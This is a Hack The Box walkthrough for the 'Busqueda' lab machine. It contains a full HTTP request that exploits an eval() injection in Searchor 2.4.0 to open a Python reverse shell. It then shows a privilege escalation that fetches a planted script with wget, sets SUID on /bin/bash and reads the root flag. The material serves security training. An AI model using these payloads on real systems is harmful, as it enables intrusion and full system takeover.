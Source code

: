 ```yaml
---
title: "Hack The Box - Busqueda [Easy]"
date: 2023-06-10T19:42:27+03:00
draft: true
tags: ["hackthebox"]
---
```


This machine is rather simple, upon scanning it we can see that the website has a generating search query URLs input form. On the bottom of the page, we can see the versions of the used software:

```
Powered by Flask and Searchor 2.4.0

$ whatweb 
Bootstrap[4.1.3], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.1.2 Python/3.10.6], IP[10.10.11.208], JQuery[3.2.1], Python[3.10.6], Script, Title[Searcher], Werkzeug[2.1.2]
```

A simple google search would yield a bug that has been removed in Searchor 2.4.2+ and before that `eval()` was used in the Searchor CLI module. Assuming that the website uses that, we can send the following payload:

```bash
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 67
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

engine=Accuweather&query=',copy_url=__import__('os').system(""" python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<myip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' """))
```

This would create a reverse shell to the machine. 

The currently used user is `svc` upon running 

```bash
$ sudo -l
```

 We can see that we can use this command:
 
```bash
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

I also discovered the `/opt/scripts` folder that had some scripts inside, including `full-checkup.sh`, I've run the command in the `/opt/scripts/` folder, and it successfully retrieved some information about the currently running services, I tried to run it in a different folder, and it gave me `Something went wrong`, I've created a dummy `full-checkup.sh` with `chmod +s /bin/bash` contents inside and ran the command again, it just printed out `[+] Done` and after that a simple `bash -p` gave me root user. 

```bash
$ cd /tmp && wget http://<ip>:8000/full-checkup.sh && chmod +x ./full-checkup.sh 
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
$ bash -p
$ cat /root/root.txt
```
